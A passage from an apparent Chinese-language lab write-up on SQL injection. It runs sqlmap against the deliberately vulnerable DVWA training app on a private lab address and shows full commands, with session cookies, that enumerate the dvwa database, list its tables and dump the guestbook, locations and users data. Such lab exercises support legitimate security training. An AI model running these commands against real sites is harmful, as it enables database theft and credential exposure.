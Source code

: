 
##### ④查看dvwa 数据库中的表

由于要求获得dvwa数据库中的所有表的内容，先查看dvwa 数据库中的表。

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa --tables`

![image-20211102212536362](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949886.png)

看到有3张表：guestbook、locations、users，之后依次查看其中的内容。



##### ⑤查看表guestbook中的列和数据

通过`-D dvwa`指定dvwa数据库，`-T guestbook`指定guestbook表，`--columns`查看表中所有列：

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook --columns` 

![image-20211101152243266](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949314.png)

guestbook表中共有3列：comment,comment_id,name，查看其中内容：

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T guestbook -C "comment,comment_id,name" --dump`

![image-20211101152400433](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949135.png)



##### ⑥查看表locations中的列和数据

同理：`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations --columns`

![image-20211102213049564](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949070.png)

locations表中共有3列：latitude, longtitude, name，查看其中内容：

`sqlmap.py -u "http://192.168.112.140/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low; PHPSESSID=43709171c4bda4821f23857bd9f0bd8a" --batch -D dvwa -T locations -C "latitude,longtitude,name" --dump`

![image-20211102213209549](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949635.png)



##### ⑦查看表user中的列和数据

同理：`sqlmap.py -u "http://127.0.0.1:8080/dvwa/vulnerabilities/sqli/?id=id%3D1&Submit=Submit#" --cookie="security=low;PHPSESSID=ob0bq1lqdc8lmevehkdr5e0fu2" --batch -D dvwa -T users --columns` 

![image-20211101152608702](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031950533.png)

查看上面8列中的全部内容：
